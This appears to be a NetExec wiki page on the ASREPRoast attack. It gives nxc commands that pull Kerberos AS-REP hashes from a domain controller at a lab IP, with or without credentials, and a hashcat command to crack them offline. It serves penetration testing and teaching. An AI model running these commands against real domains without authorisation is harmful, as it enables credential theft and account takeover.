 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast

{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```bash
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```bash
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication
{% endhint %}

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

### Cracking with hashcat

To crack hashes on the file output.txt with hashcat use the following options:

```bash
hashcat -m18200 output.txt wordlist
```

### Example

Forest machine is a good example to test **ASREPRoast** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/212" %}

### Ressources

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat" %}

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/" %}

